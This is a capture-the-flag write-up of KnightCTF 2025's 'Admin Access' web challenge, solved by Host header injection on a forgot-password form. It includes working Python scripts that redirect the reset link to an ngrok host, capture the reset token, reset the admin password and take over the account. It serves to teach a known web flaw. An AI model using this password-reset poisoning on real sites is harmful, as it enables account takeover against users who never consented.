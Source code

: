 # Admin Access


### Initial Analysis

The site appeared as follows, with a login screen:

![login](/images/KnightCTF-2025/Admin-Access/site_presentation.png)

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![comment](/images/KnightCTF-2025/Admin-Access/admin_email.png)

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![forgot](/images/KnightCTF-2025/Admin-Access/forgot_password.png)

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:

```bash
ngrok http 80
```

And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![intercept](/images/KnightCTF-2025/Admin-Access/intercept.png)

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![flag](/images/KnightCTF-2025/Admin-Access/manual_flag.png)

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```bash
ngrok http 8080
(set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```python
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
```
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
```
